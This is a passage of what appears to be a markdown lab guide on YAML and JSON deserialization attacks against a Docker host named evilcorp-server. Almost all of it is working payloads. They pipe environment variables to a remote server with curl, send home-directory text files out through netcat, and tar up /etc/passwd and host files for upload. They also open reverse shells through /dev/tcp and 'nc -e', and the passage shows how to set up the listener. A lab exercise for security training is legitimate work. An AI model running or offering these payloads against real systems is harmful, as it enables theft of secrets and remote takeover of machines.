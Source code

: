 **JSON Example:**
```
{
  "formulas": {
    "steal_data": "__import__('os').system('env | curl -X POST http://evilcorp-server:8888/env --data-binary @-')"
  }
}
```

### Via Netcat
**Python Script Example:**
```python
import os
os.system('find /home -name "*.txt" -exec cat {} \\; | nc evilcorp-server 5555')
```

### File Packaging and Exfiltration
**Combined Attack:**
```
package_and_send: !!python/object/apply:os.system
  - "tar -czf /tmp/steal.tar.gz /etc/passwd /etc/hosts /etc/hostname && curl -X POST http://evilcorp-server:8888/package --data-binary @/tmp/steal.tar.gz"
```

---

## Reverse Shell Examples

### Set up listener (Terminal 2):
```
docker exec -it evilcorp-server sh
nc -lvp 6666
```

### YAML Reverse Shell:
```
reverse_shell: !!python/object/apply:os.system
  - "bash -c 'exec 5<>/dev/tcp/evilcorp-server/6666;cat <&5|bash>&5'"
```

### JSON Reverse Shell:
```
{
  "formulas": {
    "shell": "__import__('os').system('nc -e /bin/sh evilcorp-server 6666')"
  }
}
```

### Test shell access:
- `whoami`
- `id`
- `ls /tmp`
- `cat /etc/passwd`

---
